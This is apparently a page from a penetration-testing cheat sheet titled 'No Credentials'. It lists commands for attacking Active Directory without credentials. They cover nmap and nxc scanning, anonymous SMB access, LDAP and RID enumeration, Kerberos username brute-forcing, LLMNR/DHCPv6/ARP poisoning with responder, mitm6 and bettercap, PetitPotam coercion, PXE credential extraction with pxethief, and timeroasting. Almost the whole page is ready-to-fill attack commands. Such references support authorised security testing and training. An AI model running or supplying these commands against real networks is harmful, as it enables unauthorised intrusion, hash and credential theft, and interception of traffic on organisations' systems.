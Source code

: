 ```yaml
---
title: "No Credentials"
description: "No Credentials techniques and commands for Active Directory security assessment."
---
```

# No Credentials
## Scan network *Vulnerable host*{: .highlight}
- `nxc smb <ip_range>`
- `nmap -sP -p <ip>`
- `nmap -Pn -sV --top-ports 50 --open <ip>`
- `nmap -Pn --script smb-vuln* -p139,445 <ip>`
- `nmap -Pn -sC -sV -oA <output> <ip>`
- `nmap -Pn -sC -sV -p- -oA <output> <ip>`
- `nmap -sU -sC -sV -oA <output> <ip>`

## Find DC IP
- `nmcli dev show <interface>`
- `nslookup -type=SRV _ldap._tcp.dc._msdcs.<domain>`
- `nmap -p 88 --open <ip_range>`

## Zone transfer
- `dig axfr <domain_name> @<name_server>`

## Anonymous & Guest access on SMB shares
- `nxc smb <ip_range> -u '' -p ''`
- `nxc smb <ip_range> -u 'a' -p ''`
- `enum4linux-ng.py -a -u '' -p '' <ip>`
- `smbclient -U '%' -L //<ip>`

## Enumerate LDAP *Username*{: .highlight}
- `nmap -n -sV --script 'ldap*' and not brute -p 389 <dc_ip>`
- `ldapsearch -x -H <dc_ip> -s base`

## Enumerate Users *Username*{: .highlight}
- `nxc smb <dc_ip> --users`
- `nxc smb <dc_ip> --rid-brute 10000 # bruteforcing RID`
- `net rpc group members 'Domain Users' -W '<domain> -l <ip> -U '%'`

## Bruteforce users *Username*{: .highlight}
- `kerbrute userenum -d <domain> <userlist>`
- `nmap -p 88 --script=krb5-enum-users --script-args="krb5-enum-users.realm= '<domain>',userdb=<user_list_file>" <dc_ip>`

## Poisoning *poisoning SMB || poisoning LDAP || poisoning HTTP*{: .highlight}
- LLMNR / NBTNS / MDNS
  - `responder -l <interface>`
- ⚠️ DHCPv6 (IPv6 prefered to IPv4)
  - `mitm6 -d <domain>`
  - `bettercap`
- ⚠️ ARP Poisoning
  - `bettercap`
  - `asreqroast`
    - `Pcredz -i <interface> -v` *Hash found ASREQ*{: .highlight}

## Coerce *Coerce SMB*{: .highlight}
- Unauthenticated PetitPotam (CVE-2022-26925) @CVE@
  - `petitpotam.py -d <domain> <listener> <target>`

## PXE
- no password *Credentials (NAA account)*{: .highlight}
  - `pxethief.py 1`
  - `pxethief.py 2 <distribution_point_ip>`
- password protected *PXE Hash*{: .highlight}
  - `tftp -i <dp_ip> GET "\xxx\boot.var"`
  - `pxethief.py 5 '\xxx\boot.var'`

## TimeRoasting *timeroast hash*{: .highlight}
- `timeroast.py <dc_ip> -o <output_log>`